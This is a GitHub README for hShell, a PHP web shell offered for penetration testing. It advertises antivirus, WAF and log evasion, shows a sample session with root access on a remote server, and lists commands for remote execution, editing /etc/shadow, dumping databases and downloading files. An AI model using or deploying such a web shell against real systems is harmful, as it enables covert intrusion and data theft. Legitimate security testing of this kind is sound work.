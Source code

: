 # WHK hShell

Web-Shell for professional use as a pentester writed in <?php


## Advantage

- The core of the shell is on the client's side.
- It leaves no traces because the code is not stored on the server side.
- No server-side interventions are required to perform updates.
- Interpretable code sent from the client, this prevents the detection of the antivirus.
- Transport of obfuscated code for the prevention of WAF detection.
- The data transport uses HTTP / POST requests, prevents leaving traces in logs of WEB servers.
- Use random payload on the HTTP / POST body for prevention of WAF detection.
- Supports large amounts of code due to the sending of requests via multipart/form-data.


## How to use?

The php server script must be uploaded on the server to be controlled. Then you must run the client.php from the terminal and indicate the path of the server.php:

    whk@machine:~$ php client.php 
     -=[ Wellcome to H Shell 💀 v0.5 Alpha ]=-
    + Connect to url: https://whk.cl/server.php
    + Connecting ...
    + Connected!
    h-Shell:/home/whk.cl/public_html/> id
    uid=0(root) gid=0(root)
    hShell:/home/whk.cl/public_html/> exec ls -la
    total 1
    drwxrwxr-x.  5 whk.cl whk.cl  4096 Feb 10 17:33 .
    drwx------.  6 whk.cl whk.cl  4096 Oct  8 15:08 ..
    -rw-r--r--.  1 root   root    1388 Feb 10 21:38 server.php
    hShell:/home/whk.cl/public_html/> force-exec explicit ls -la
    total 1
    drwxrwxr-x.  5 whk.cl whk.cl  4096 Feb 10 17:33 .
    drwx------.  6 whk.cl whk.cl  4096 Oct  8 15:08 ..
    -rw-r--r--.  1 root   root    1388 Feb 10 21:38 server.php
    h-Shell:/home/whk.cl/public_html/> exit
    ! Bye.


## Commands available

    hShell:/> help
      Command             | Description
     ────────────────────────────────────────────────────────────── 
      connect [url]       : Connect to Server WebShell script.
      help                : Show help of the client.
      cat                 : Show the content of remote file.
      tail [file path]    : Read the last lines of specific file.
      cd [directory]      : Navigate to specific remote directory.
      shell [command]     : Execute a simple command in remote server using the           current remote path. Detect automatic available method on the server. See the call-exec command. Alias of exec and system commands.
      force-shell [method] [command] : Force execute a simple command in remote server using an specific php method in current path. Alias of force-exec and force-system commands. Available methods: system, exec, shell_exec, passthru, popen, proc_open, explicit (using double quotes `).
      edit [editor command] [file path] : Edit remote file with specific local command edtor, example: edit vi /etc/shadow
      nano [file path]    : Edit remote file with nano editor on the local system.
      vi [file path]      : Edit remote file with vi editor on the local system.
      vim [file path]     : Edit remote file with vim editor on the local system.
      gedit [file path]   : Edit remote file with gedit editor on the local system.
      notepad [file path] : Edit remote file with notepad editor on the local system.
      sublime [file path] : Edit remote file with sublime text editor on the local system.
      uninstall           : Uninstall the current WebShell on the server.
      install [file path] : Install the WebShell on the specific remote parh.
      mysql [host] [port] [user] [password] : Start an interative MySQL shell connection on the remote server.
      mysqldump [host] [port] [user] [password] [local file] : Make a dump from remote database to local file .sql
      download [remote path] [local path] : Download a backup of file or directory from server to local path.
      upload [local path] [remote path] : Upload a local file or directory to remote directory (maintains the same permits)
      rm [path]           : Delete the specific file or directory path.
      mkdir [path]        : Make a directory on the server.
      phpinfo             : Show the full info of the php, libraries and enviroments of the server.
      id                  : Show the full info of the current user and group on the server.
      ls                  : List files and folders of the current path on the server. Alias of ll and dir commands.
      shellpath           : Show the current local path of the WebShell server.
      pwd                 : Show the current local path on the server.
      uname               : Show the full info of the System Operative of the server.
      exit                : Exit of the client but not remove the WebShell on the server. See uninstall.  Alias of quit command.

## Do not be bad
Use this script only under controlled environments where you have permission to execute it. There is no guarantee of its functionality or use, please proceed with discretion.

## How to contribute?

|METHOD                 |WHERE                                                                |
|-----------------------|---------------------------------------------------------------------|
|Donate                 |Paypal `yhojann.aguilera@gmail.com`                                  |
|Find bugs              |Using the [Issues tab](https://github.com/WHK102/hShell/issues)      |
|Providing new ideas    |Using the [Issues tab](https://github.com/WHK102/hShell/issues)      |
|Creating modifications |Using the [Pull request tab](https://github.com/WHK102/hShell/pulls) |
